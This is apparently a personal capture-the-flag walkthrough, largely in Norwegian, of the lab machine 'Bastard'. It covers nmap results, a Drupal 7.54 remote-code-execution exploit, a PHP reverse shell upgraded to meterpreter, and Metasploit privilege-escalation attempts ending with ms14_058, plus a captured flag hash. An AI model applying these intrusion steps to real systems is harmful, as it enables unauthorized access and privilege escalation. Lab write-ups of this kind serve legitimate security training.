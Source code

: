 ## bastard 10.10.10.9

windows. drupal cms

Microsoft IIS httpd 7.5

80/tcp    open  http    Microsoft IIS httpd 7.5

\| http-methods:

\|\_  Potentially risky methods: TRACE

\| http-robots.txt: 36 disallowed entries \(15 shown\)

\| /includes/ /misc/ /modules/ /profiles/ /scripts/

\| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt

\| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt

\|\_/LICENSE.txt /MAINTAINERS.txt

135/tcp   open  msrpc   Microsoft Windows RPC

49154/tcp open  msrpc   Microsoft Windows RPC

drupal 7.54 exploit

[https://www.ambionics.io/blog/drupal-services-module-rce](https://www.ambionics.io/blog/drupal-services-module-rce)

[https://github.com/mottoin/Drupal-Exploit](https://github.com/mottoin/Drupal-Exploit)

wfuzz megabeast

**10.10.10.9/rest** valdidation

burde nå funke med path /rest og endpoint uforandret

må putte php shell i data tagen

systeminfo, **server 2008 r2 x64**, dual processor

måtte så klart spawne et **windows reverse shell se under**



 **7.php virker**

bruke

[https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse Shell.php](https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse Shell.php) denne funker med shell\_Reverse\_tcp ikke meterpreter.

først reverse shell, så opgpradere til meterpreter

use post/multi/manage/shell\_to\_meterpreter

**gjøre om fra 32 til 64 bit meterpreter = execute -f "c:\windows\sysnative\notepad.exe" og migrate til den pid-en**

exploit/windows/local/ms10\_092\_schelevator - funket ikke

ms16-032 sette 64-bit payload. still no work?

iusr har visst read priv

user.txt **ba22fde1932d06eb76a163d312f921a2**

prøvd token impersonation rottentpotato. no work

use exploit suggester with x86 to reveal some which also work on x64

**use exploit/windows/local/ms14\_058\_track\_popup\_menu**

set target 1 \(x64\)

set payload x64 meterpreter - ikke nødvendig

